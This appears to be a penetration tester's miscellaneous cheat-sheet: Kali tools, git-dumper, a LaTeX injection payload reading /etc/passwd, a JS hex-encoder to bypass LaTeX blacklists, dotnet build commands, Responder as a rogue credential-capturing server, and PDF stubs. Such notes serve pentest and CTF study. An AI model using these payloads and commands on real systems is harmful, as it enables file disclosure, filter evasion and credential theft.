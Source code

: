 # Misc

## Basic Kali install
```bash
sudo apt install terminator ghidra seclists zaproxy gobuster
```

## Git Dumper
```bash
pip install git-dumper
git-dumper https://<host>/.git ./out
```

## LaTeX
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

Basic file read
```latex
\documentclass[12pt]{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/etc/passwd}
\end{document}
```

### Bypass blacklist/whitelist
Js script to obfuscate LaTeX as hex values
```js
const fs = require('fs')
const args = process.argv.slice(2);
const scriptContent = fs.readFileSync(args[0]).toString()
const parsed = scriptContent.split('\n').map(line => line.split('').map(char =>  "^^" + Number(char.charCodeAt(0)).toString(16)).join('')).join("\n")
fs.writeFileSync(args[1], parsed)
```

## Dotnet

```bash
dotnet new console -n Honk
dotnet build
dotnet run
dotnet publish -c Release
dotnet publish -c Release -r win-x64 --self-contained -p:PublishSingleFile=true -p:PublishTrimmed=true
```

```xml
<!-- for dll -->
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <AssemblyName>Honk</AssemblyName>
    <OutputType>Library</OutputType>
    <!-- netstandard2.0 for compatibility -->
    <TargetFramework>netstandard2.0</TargetFramework>
  </PropertyGroup>
</Project>
```

## Responder
HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server
- [responder](https://github.com/lgandx/Responder)
- [responder kali](https://www.kali.org/tools/responder/)
```
responder -I tun0 -wA
```

## PDF stuff

### Create empty pdf
```bash
convert xc:none -page A4 empty.pdf
```

### Empty pdf MIME
```
%PDF-1.2 
1 0 obj
<<
/Title (empty)
/CreationDate (D:20231107231620)
/ModDate (D:20231107231620)
/Producer (xxxx)
>>
endobj
%%EOF
```
